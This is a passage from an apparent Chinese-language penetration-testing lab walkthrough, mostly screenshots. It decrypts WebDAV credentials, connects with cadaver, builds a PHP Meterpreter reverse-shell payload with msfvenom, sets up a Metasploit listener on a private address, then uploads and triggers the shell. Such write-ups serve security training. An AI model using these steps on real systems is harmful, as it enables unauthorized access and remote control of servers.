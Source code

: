 ![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMacjDljg1ZC0daicMiavRusm5DaOeBsazNx3SxEyTjlK8eSgXjwgVt2FfA/640?wx_fmt=png)

解密一下

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMa6Xuc9aH9wuJic4paQiaVhVW05l8tSCR496S81oc95XMgcRxL9SKvVCFA/640?wx_fmt=png)

解密得到为：yamdoot:Swarg

这应该就是 webdav 的账号和密码了

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMa6ERzTNxwOkFrNwenToVlIChichqGpFiaiaTO3gwafEhgjbWef1nRHXyiaA/640?wx_fmt=png)

成功连接

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMaGBxwBv7GWibCSOVIMwRoKIoYJWtGmJCNJ6bKQ0LFqKiaKSJj4tOk28TQ/640?wx_fmt=png)

可以发现我们是可以通过 webdav 上传文件的

接着我们使用 kali 的 cadaver 去连接 webdav

使用命令：cadaver http://192.168.158.142/webdav

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMag04gt8crPIXsxwqYhLibXFsrmibsAJMibibPxkYMgRVickMn5dELlic3IKNg/640?wx_fmt=png)

由于这里是需要登录 webdav 所以我们需要上传能反弹 shell 的木马文件

这里使用 kali 生成一个 msf 的 php 马，命令：

msfvenom -pphp/meterpreter\_reverse\_tcp LHOST=xxx LPORT=xxx -f raw > shell.php

kali 进行监听

命令：

use exploit/multi/handler

set payloadphp/meterpreter\_reverse\_tcp

php/meterpreter\_reverse\_tcp

set lhost 192.168.158.132

192.168.158.132

set lport 8888

run

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMaYw8kxBLia9KAm4DKqwzic1jDpibrcEDbjrUB7EkA3iaRAE1Zyfd524fL3g/640?wx_fmt=png)

再上传生成的木马文件

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMafYKYAmUkicSuWNN8E1yrwFebAqvBWN40yvqDsaITWeSgftKmXFGCDpg/640?wx_fmt=png)

访问 msf.php

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMaD7ygYaUtYdhfkeOOpNOe6cVBrHyFRtOSWg6CXicSwcc3SqlQhamSPUw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/mqpmeNib9RZStsibgMBFrQY0D7HP06GeMaygCgrIjDS9910vmqqzvaSpyibAjUibu84IBRbKnric9KSZpvRnlzAP8rQ/640?wx_fmt=png)
